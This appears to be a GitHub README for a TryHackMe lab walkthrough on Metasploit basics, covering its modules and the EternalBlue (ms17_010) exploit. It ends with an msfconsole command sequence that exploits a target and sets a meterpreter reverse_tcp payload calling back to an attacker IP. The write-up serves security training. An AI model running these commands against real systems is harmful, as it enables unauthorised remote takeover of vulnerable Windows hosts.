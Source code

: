 # Metasploit: Introduction (TryHackMe)

This repository documents my hands-on walkthrough and key learnings from the **"Metasploit: Introduction"** room on [TryHackMe](https://tryhackme.com/room/metasploitintro). This room introduces the essential components of the Metasploit Framework and guides through a basic exploitation scenario using the famous EternalBlue vulnerability.

---

## Room Overview

- **Platform**: TryHackMe  
- **Difficulty**: Easy  
- **Category**: Exploitation Basics  
- **Focus**: Metasploit Framework, msfconsole, module usage, EternalBlue exploitation

---

## Key Concepts Learned

- Structure and functionality of the Metasploit Framework
- Navigating and using `msfconsole`
- Working with **Metasploit modules**:
  - Exploits
  - Payloads
  - Auxiliary modules
  - Encoders and NOPs
- Using `search`, `use`, `set`, `run` commands
- Exploiting `ms17_010` (EternalBlue) vulnerability using Metasploit

---

## Tools Used

- **Kali Linux**
- **Metasploit Framework**
- **TryHackMe AttackBox**
- **Windows 7 vulnerable VM (ms17_010)**

---

## Completion
![Room Completion]()

---

## Exploitation Summary

```bash
msf > search ms17_010
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(...) > set RHOSTS [Target IP]
msf exploit(...) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf exploit(...) > set LHOST [Your IP]
msf exploit(...) > exploit



